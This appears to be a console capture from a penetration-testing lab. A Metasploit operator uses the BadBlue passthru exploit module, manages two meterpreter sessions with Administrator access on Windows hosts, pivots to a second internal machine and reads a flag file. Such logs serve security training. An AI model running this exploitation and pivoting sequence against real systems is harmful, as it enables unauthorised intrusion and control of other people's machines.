 ```
meterpreter > 
Background session 2? [y/N]  
msf6 exploit(windows/http/badblue_passthru) > sessions -n victim-2 -i 2
[*] Session 2 named to victim-2
msf6 exploit(windows/http/badblue_passthru) > sessions

Active sessions
===============

  Id  Name      Type                     Information                                      Connection
  --  ----      ----                     -----------                                      ----------
  1   victim-1  meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.3:4444 -> 10.0.28.68:49220 (10.0.28.68)
  2   victim-2  meterpreter x86/windows  ATTACKDEFENSE\Administrator @ ATTACKDEFENSE      10.0.28.68:49427 -> 10.0.17.144:4433 (10.0.17.144)

msf6 exploit(windows/http/badblue_passthru) > sessions 2
[*] Starting interaction with victim-2...

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > search -f flag.txt
Found 1 result...
    c:\flag.txt (32 bytes)
meterpreter > cat c:\\flag.txt
c46d12f28d87ae0b92b05ebd9fb8e817
meterpreter > 
Background session victim-2? [y/N]  
msf6 exploit(windows/http/badblue_passthru) > sessions 1
[*] Starting interaction with victim-1...

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows

```